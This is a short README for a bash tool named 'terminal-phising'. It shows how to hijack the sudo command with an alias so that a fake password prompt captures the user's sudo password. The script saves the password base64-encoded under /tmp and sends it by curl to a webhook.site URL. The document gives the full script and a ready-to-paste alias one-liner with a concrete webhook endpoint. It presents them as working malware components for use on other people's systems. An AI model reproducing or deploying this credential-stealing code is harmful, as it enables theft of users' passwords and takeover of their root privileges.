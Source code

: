 # terminal-phising 🕵️‍♀️ 🕵
Terminal passwod steal
can be injected with alias when su run in terminal it activate this script 

## use webhook.site for sending out the password as request value 
this script also saved the password at /tmp/ file named with random and the linux username at the start $whoami

this 2 script very simple and easy to write and use in bash it can be useful with a kind of malware that infected users using inject this file using alias via sudo su command for activate the fake script :)  

## to replace the script with sudo we can use alias 
```bash
alias sudo='./patch-to-scritp'
```
## for remove use the sudo replaced or any other command used for phising 
```bash
unalias sudo 
```

## so just another way kind of working the same but without bash file needed in the system this one can be injected using alias only
code it self: 
```bash
stored_password=$(
  dir="/tmp/$USER-$(date +%s%N)"
  mkdir -p "$dir"
  file="$dir/content.txt"
  read -s -p "[sudo] password for $(whoami): " user_password
  echo "$user_password" | base64 > "$file"
  cat "$file" | base64 -d

  # Send the base64-encoded password to webhook.site as a POST request
  webhook_url="https://webhook.site/aaaaaa-aaa-aaa-aaaa-186aaaa034"  # Replace with your webhook URL
  encoded_password=$(echo -n "$user_password" | base64)
  curl -X POST -d "content=$encoded_password" "$webhook_url" >/dev/null 2>&1
)
```
so using this code you can inject it to an alias called sudo and by typing sudo it activate background code (the code) that save the password in file stored inside /tmp start with username who run the script like /tmp/$USER or /tmp/sudo and send the password typed to remote server we used [Webhook site](https://webhook.site) for this case. here is example of command to replace sudo with the backdoored sudo command:  
```bash
alias sudo='stored_password=$(dir="/tmp/$USER-$(date +%s%N)" && mkdir -p "$dir" && file="$dir/content.txt" && read -s -p "[sudo] password for $(whoami): " user_password && echo "$user_password" | base64 > "$file" && cat "$file" | base64 -d && webhook_url="https://webhook.site/a13a3530-7084-4f04-b0d6-186f5f832034" && encoded_password=$(echo -n "$user_password" | base64) && curl -X POST -d "content=$encoded_password" "$webhook_url" >/dev/null 2>&1); echo'

```
